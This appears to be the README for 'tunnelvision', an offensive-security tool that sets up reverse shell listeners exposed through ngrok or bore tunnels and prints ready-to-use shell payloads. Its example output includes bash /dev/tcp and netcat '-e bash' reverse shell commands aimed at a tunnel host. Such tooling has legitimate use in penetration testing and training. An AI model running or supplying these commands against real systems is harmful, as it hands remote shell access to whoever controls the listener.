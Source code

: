 # Tunnelvision

Automate reverse shell setup using tunnel services (ngrok or bore).

## What it does

- Sets up a local listener on your chosen port
- Creates a TCP tunnel (ngrok or bore) to expose your listener publicly
- Displays ready-to-use example reverse shell commands with your public IP/port
- Automatically upgrades Linux shells for better interactivity
- Supports both Linux/Mac and Windows shells

## Installation

### Option 1: Install with uv (recommended)

```bash
# Install directly from GitHub
uv tool install git+https://github.com/Nissen96/tunnelvision

# Or clone and install locally
git clone https://github.com/Nissen96/tunnelvision.git
cd tunnelvision
uv tool install .
```

### Option 2: Install with pip

```bash
# Install directly from GitHub
pip install git+https://github.com/Nissen96/tunnelvision

# Or clone and install locally
git clone https://github.com/Nissen96/tunnelvision.git
cd tunnelvision
pip install .
```

### Option 3: Run without installing

```bash
# Clone the repository
git clone https://github.com/Nissen96/tunnelvision.git
cd tunnelvision

# Run with uv
uv run tunnelvision 4444
```

## Setup

### For bore (recommended - no setup required!)

Bore works out of the box with no authentication or setup required. Just install bore:

```bash
# Install bore (choose one method)

# Option 1: Install with cargo
cargo install bore-cli

# Option 2: Download binary from releases
# https://github.com/ekzhang/bore/releases

# Option 3: Install with package manager
# macOS: brew install bore-cli
# Arch Linux: yay -S bore
```

#### Self-hosting bore server

You can optionally run your own bore server for better control:

```bash
# Start your own bore server
bore server

# Use your server with this tool
tunnelvision 4444 --to your-server.com
```

### For ngrok

If you want to use ngrok instead of bore:

1. Install ngrok Python package:
   ```bash
   pip install ngrok
   ```

2. Sign up for an [ngrok account](https://dashboard.ngrok.com/signup) if you don't have one.
3. Get your ngrok auth token: [Your Authtoken](https://dashboard.ngrok.com/get-started/your-authtoken)
4. Set your auth token:
   ```bash
   export NGROK_AUTHTOKEN=your_token_here
   ```
   Or create a `.env` file:
   ```
   NGROK_AUTHTOKEN=your_token_here
   ```

## Usage

*Note: Replace `tunnelvision` with `uv run tunnelvision` if not installed as a tool.

```bash
# Basic usage (defaults to bore tunnel and bash shell)
tunnelvision 4444

# Use ngrok instead
tunnelvision 4444 --tunnel ngrok

# Specify shell type
tunnelvision 4444 --shell powershell
tunnelvision 4444 --tunnel bore --shell sh
tunnelvision 4444 --tunnel ngrok --shell bash

# Use custom bore server
tunnelvision 4444 --to my-bore-server.com
tunnelvision 4444 --tunnel bore --to localhost:7835

# Short options
tunnelvision 4444 -t ngrok -s powershell

# Skip printing reverse shell examples
tunnelvision 4444 --quiet
```

## Options

- **PORT**: Local port to listen on (1-65535) - positional argument
- **--tunnel, -t**: Tunnel type - 'ngrok' or 'bore' (default: bore)
- **--shell, -s**: Shell type for reverse shell examples (default: bash)
- **--to**: Remote server for bore tunnel (default: bore.pub). Only used with bore tunnel.
- **--quiet, -q**: Don't print reverse shell examples

### Supported Shells

**Linux/Unix:**
- `sh`, `bash`, `zsh`, `fish`, `dash`, `ash`, `ksh`, `csh`, `tcsh`, `mksh`, `pdksh`

**Windows:**
- `powershell`, `pwsh`, `cmd`

**Note:** You can specify any shell name - the tool will generate appropriate reverse shell examples for the specified shell.
However, the shell will not be attempted upgraded if it is unknown.

## Example Output

```
[+] Setting up bore tunnel...
[+] Listening at 1.2.3.4:12345 (bore.pub)...

=============== REVSHELL EXAMPLES ===============

Bash:
────────────────────────────────────────────
bash -i >& /dev/tcp/1.2.3.4/12345 0>&1
────────────────────────────────────────────

Netcat:
────────────────────────────────────────────
nc 1.2.3.4 12345 -e bash
ncat 1.2.3.4 12345 -e bash
────────────────────────────────────────────

[+] Waiting for connection...
    Press Ctrl+C to exit
```

## Features

- **Multiple tunnel options**: Choose between bore or ngrok
- **Automatic shell upgrade**: Linux shells get PTY upgrades, aliases, and proper terminal settings
- **Multiple examples**: Bash, Netcat, Python, Perl, Ruby, and PowerShell reverse shells
- **Clean exit**: Automatically closes tunnels when you exit
- **Cross-platform**: Works on Linux, macOS, and Windows

## Requirements

- Python 3.9+
- bore (required for bore tunnels)
- ngrok Python package (optional, only needed for ngrok tunnels)
- `uv` package manager (recommended) or `pip`

## License

MIT
